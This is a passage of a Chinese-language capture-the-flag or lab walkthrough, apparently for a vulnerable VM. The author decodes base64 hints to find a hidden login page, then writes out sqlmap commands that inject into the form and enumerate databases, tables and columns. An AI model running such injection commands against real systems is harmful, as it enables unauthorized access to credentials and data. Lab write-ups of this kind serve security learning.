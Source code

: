 扫出了 1337 端口，直接访问试试

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqYVrsBCSBRQUREVGcu2M9iaH1o5H6BwIkxmLFy3hBiaWwbyvfN2qpmNpu9ocgwmDLKDExutvpDA4A/640?wx_fmt=png)

打开就一张图，然后我还检查了源代码，没有找到有用信息....

以后在渗透任何系统时，都要查看下 robots.txt 文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqYVrsBCSBRQUREVGcu2M9Bnq4iazve8nUgZr0U1LQtQ5nGVY8rxnqjQP80Chfg8NrPF4z3Z6kGhQ/640?wx_fmt=png)

查看源代码

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqYVrsBCSBRQUREVGcu2M9ib6PBwNOUvkqYuyS2SYyP5qz4dEqPnyib8CBiaOWotFImMgBX0viaKcp8A/640?wx_fmt=png)

找到 base64 值：THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh，去网上解密

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqYVrsBCSBRQUREVGcu2M9FzcbVsiaqOXQzR9kWxJ75rapiax6ib0MqA8bnqWWRGiaaN1ibjwA1FNX9vg/640?wx_fmt=png)

或者在 kali 里面进行解密

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqYVrsBCSBRQUREVGcu2M9WsYK812ibVibu9r5s0wnMX5VsSqUr2NLhvRPhicUZP6kfIEqFM2Ppj7Cg/640?wx_fmt=png)

输出 Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!

输出还是 base64 值... 继续进行二次解码！！！Lzk3ODM0NTIxMC9pbmRleC5waHA=

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqYVrsBCSBRQUREVGcu2M95OJ6KuUBy6oqNTwIuw5Q90Lq656IcgnrgqBhoUtzib5DjFibn8xEuLRQ/640?wx_fmt=png)

输出：/978345210/index.php

一看就知道是目录，继续访问

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqYVrsBCSBRQUREVGcu2M9bVyQicrbBxogXYdhLqXHGiaZmiawO2rbrPSSSY9c83RbrL6vUuibHCJpIg/640?wx_fmt=png)

目前不知道确切的用户名和密码，可以使用 SQLMAP 进行基于登录表单的注入查看，检索数据库名称和登录凭据 

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqYVrsBCSBRQUREVGcu2M9aUItx8N7GcVOPRZtiaLZhgr1ocTmYvXAWRJwnL7IReIvDhCbLSJjlYg/640?wx_fmt=png)

命令：sqlmap -o -u "http://192.168.182.146:1337/978345210/index.php" --forms --dbs

继续获取 webapp 数据表信息

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqYVrsBCSBRQUREVGcu2M94fFrU4xjUhAIYsvvQwSiboRBfBuA7nc2WeHHjBVcN1bU1GXzxQ7UicbA/640?wx_fmt=png)

命令：sqlmap -o -u "http://192.168.182.146:1337/978345210/index.php" --forms -D Webapp --tables

这里可以看到 Users 数据表，继续查看数据表信息

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqYVrsBCSBRQUREVGcu2M94bKOQ16P46sHCib6mKW8ACpB3tl6RvJjApH9RJOdD8CP1xRfibLOyGwQ/640?wx_fmt=png)

命令：sqlmap -o -u "http://192.168.182.146:1337/978345210/index.php" --forms -D Webapp -T Users --columns

这里看到了一些专栏，进行转储选出最终结果

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqYVrsBCSBRQUREVGcu2M9KX7x7k1L446usgibY3QdtfRd6Hvibz9anBQTFVM3mROAOXQ2Q2XiaUwNg/640?wx_fmt=png)
